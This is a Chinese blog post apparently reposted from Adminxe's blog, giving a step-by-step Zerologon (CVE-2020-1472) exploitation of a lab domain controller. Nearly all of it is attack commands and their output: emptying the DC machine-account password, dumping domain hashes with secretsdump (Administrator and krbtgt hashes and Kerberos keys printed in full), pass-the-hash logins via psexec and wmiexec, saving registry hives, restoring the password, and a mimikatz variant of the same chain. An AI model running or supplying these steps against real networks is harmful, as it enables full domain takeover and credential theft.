









# CVE-2020-1472 域内提权 - Adminxe - 博客园

> 原文：[`www.cnblogs.com/cn-gov/p/15746597.html`](https://www.cnblogs.com/cn-gov/p/15746597.html)


### **0x00 测试环境**

DC(WIN-ENS2VR5TR3N):192.168.183.130

攻击机器:192.168.183.129

### **0x01 对域控进行测试漏洞是否存在**

```
python3 zerologon_tester.py WIN-ENS2VR5TR3N 192.168.183.130
```



### **0x02 使用 zerologon 工具将域控密码打成空**

###### （这里打空的用户是域控所在机器的账户，并不是域控账户。）

```
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR 
python3 cve-2020-1472-exploit.py WIN-ENS2VR5TR3N 192.168.183.130
```


### **0x03 使用空密码 dump 域控上的 hash**

```
secretsdump.py demo.com/WIN-ENS2VR5TR3N\$@192.168.183.130 -no-pass
```


```
root@kali:~/Desktop/CVE-2020-1472# secretsdump.py demo.com/WIN-ENS2VR5TR3N\$@192.168.183.130 -no-pass Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash) [*] Using the DRSUAPI method to get NTDS.DIT secrets 

Administrator:500:aad3b435b51404eeaad3b435b51404ee:4800df4eb005a1161099670790d28491::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7c4ed692473d4b4344c3ba01c5e6cb63::: demo.com\douser:1103:aad3b435b51404eeaad3b435b51404ee:bc23b0b4d5bf5ff42bc61fb62e13886e::: WIN-ENS2VR5TR3N$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: [*] Kerberos keys grabbed Administrator:aes256-cts-hmac-sha1-96:c7854335848aff843232d959b46b9dd203e64527f5c78080fe50f7a0da9262da Administrator:aes128-cts-hmac-sha1-96:1ced2c65092c6c7f806f7084936e7c5a Administrator:des-cbc-md5:86766875f22316c1 Administrator:rc4_hmac:4800df4eb005a1161099670790d28491 krbtgt:aes256-cts-hmac-sha1-96:7908334cad9f9da66226206650d640bfdce5633d91827f71bb2f9520cccc021d krbtgt:aes128-cts-hmac-sha1-96:4e43ee83d4f67ba26df9766e1d247a37 krbtgt:des-cbc-md5:8afbf7b6fb68d6c7 krbtgt:rc4_hmac:7c4ed692473d4b4344c3ba01c5e6cb63 demo.com\douser:aes256-cts-hmac-sha1-96:4da088c02bff380e5c4a2730b202f437625edafe74782e228ebfb17d4c7a638f demo.com\douser:aes128-cts-hmac-sha1-96:6a909313c29211aeb7956574036d9202 demo.com\douser:des-cbc-md5:eaa86b2a941519bc demo.com\douser:rc4_hmac:bc23b0b4d5bf5ff42bc61fb62e13886e WIN-ENS2VR5TR3N$:aes256-cts-hmac-sha1-96:dbc729021563cedbdee3a58e1c5957eb32d3fd0617da00e13b650b0c17211047 WIN-ENS2VR5TR3N$:aes128-cts-hmac-sha1-96:fbdc490e057da628beec751bd20eb9e7 WIN-ENS2VR5TR3N$:des-cbc-md5:13c783abbfe32062 WIN-ENS2VR5TR3N$:rc4_hmac:31d6cfe0d16ae931b73c59d7e0c089c0 [*] Cleaning up... 
```

### 0x04 使用 PTH 登录域控

```
psexec.py demo.com/administrator@192.168.183.130 -hashes :获取的 administrator 中 hash 值 wmiexec.py demo.com/administrator@192.168.183.130 -hashes :获取的 administrator 中 hash 值 wmiexec.py demo.com/administrator@192.168.183.130 -hashes :4800df4eb005a1161099670790d28491
```


### **0x05 获取计算机账号原始 hash，并保存到本地，同时删除 download 到域控机器的文件**

```
reg save HKLM\SYSTEM system.save reg save HKLM\SAM sam.save reg save HKLM\SECURITY security.save get system.save get sam.save get security.save del /f system.save del /f sam.save del /f security.save
```



### **0x06 使用 secretsdump 进行机器密码以及域控 hash 的读取**

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```



### **0x07 将该原始计算机帐户哈希还原**

```
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH 
python3 reinstall_original_pw.py WIN-ENS2VR5TR3N 192.168.183.130 200a59f02cec2eb723e509669089481c
```



### **0x08 使用空密码重新进行 dump 测试，失败则为密码恢复成功**

```
python3 secretsdump.py demo.com/WIN-ENS2VR5TR3N\$@192.168.183.130 -no-pass
```


### 0x09 Zerologon

[`www.secura.com/pathtoimg.php?id=2055`](https://www.secura.com/pathtoimg.php?id=2055)

==================================================================
**使用 mimikatz.exe 去攻击域控**
检测目标机是否存在 cve2020-1472

```
lsadump::zerologon /target:域控 IP /account:域控主机名$ 
lsadump::zerologon /target:192.168.223.133 /account:win08$
```



清空域控密码

```
lsadump::zerologon /target:域控 IP /account:域控主机名$ /exploit 
lsadump::zerologon /target:192.168.223.133 /account:win08$ /exploit
```



获取目标机的 HASH

```
lsadump::dcsync /domain:de1ay.com /dc:dc.de1ay.com /user:krbtgt /authuser:dc$ /authdomain:de1ay.com /authpassword:"" /authntlm 
注意：本地测试需要将 DNS 指向域控 
lsadump::dcsync /domain:test.com /win08:win08.test.com /user:administrator /authuser:win08$ /authdomain:test
```



恢复密码

```
lsadump::postzerologon /target:dc.de1ay.com /account:dc$ 
lsadump::postzerologon /target:192.168.223.133 /account:win08$
```



注：mimikatz 在读取域内 HASH 的时候需要配置 DNS 指向域控 /dc: win08.test.com 这里填写域控的完整的名字 ； 输入参数都正确的情况还获取不了， 重启 AD 服务 在恢复密码的时候注意先去运行 privilege::debug

转载请注明：[Adminxe's Blog](https://www.adminxe.com/) » [CVE-2020-1472 域内提权](https://www.adminxe.com/3102.html)